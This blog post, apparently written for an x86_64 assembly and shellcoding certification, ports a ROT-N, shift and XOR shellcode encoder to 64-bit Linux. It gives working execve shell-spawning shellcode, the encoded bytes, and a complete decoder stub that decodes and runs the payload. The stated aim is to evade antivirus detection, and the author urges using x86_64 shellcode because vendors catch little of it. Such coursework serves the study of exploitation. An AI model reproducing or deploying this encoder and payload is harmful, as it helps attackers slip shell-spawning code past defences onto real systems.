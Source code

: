 ```yaml
---
layout: single
title: [ ROT-N + Shift-N + XOR-N] Shellcode Encoder - Linux x86_64
date: 2018-7-22
classes: wide
header:
  teaser: /assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif
---
```


Introduction
------------
Encoding schemes are used to transform data in a way that makes it consumable by different systems in a safe manner. In this post we’ll look at how we can bypass AVs by ab(using) this scheme to encode otherwise detectable shellcode.

Shellcode
---------
We will be porting an [x86 encoder](https://www.exploit-db.com/exploits/43890) I made a while back to make it work `x86_64` architecture. Please refer to my SLAE32 blog series for more details on the encoder itself. I’ve also made a quick `execve()` shellcode to test with.

```nasm
section .text

global _start

_start:
 	push rax
	cdq
	push rdx
	pop rsi
	mov rbx,'/bin//sh'
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall
```

Will reuse the `x86` encoder [script](https://github.com/ihack4falafel/SLAE64/blob/master/Assignment%204/Encoder.py) developed during the SLAE32 blog series, all we need is feed it our newly created `/bin/sh` shellcode and generate an encoded version of it.

```sh
➜  A4 ./Encoder.py 13 1 1337
Original Shellcode: 0x50, 0x99, 0x52, 0x5e, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x53, 0x54, 0x5f, 0xb0, 0x3b, 0x0f, 0x05, 
Encoded Shellcode : 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
➜  A4 
```

Here’s `Decoder.asm` ported to `x86_64` including previously generated encoded shellcode.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to RSI
	
decoder:

    pop rsi                      ; store encoded_shellcode pointer in RSI
    push rsi   		             ; push encoded_shellcode pointer to stack for later execution
    mov rdi, rsi                 ; move encoded_shellcode pointer to RDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [rsi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [rdi], al                ; move decoded byte to RDI	
    inc rsi                      ; point to the next encoded_shellcode word
    inc rsi
    inc rdi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [rsp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
```

Let’s run it.

![](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif)

Out of curiosity, I decided to compare my `x86` encoded shellcode VT results (taken at the time the original `x86` encoder was created) with `x86_64` one and I found the results quite interesting.

![x86 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.45.33-PM.png)


![x86_64 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.46.08-PM.png)

Closing Thoughts
----------------
The VT results clearly shows that AV vendors don’t care much for `x86_64` shellcode at this point in time which is another good reason why we should use it more. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%204). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
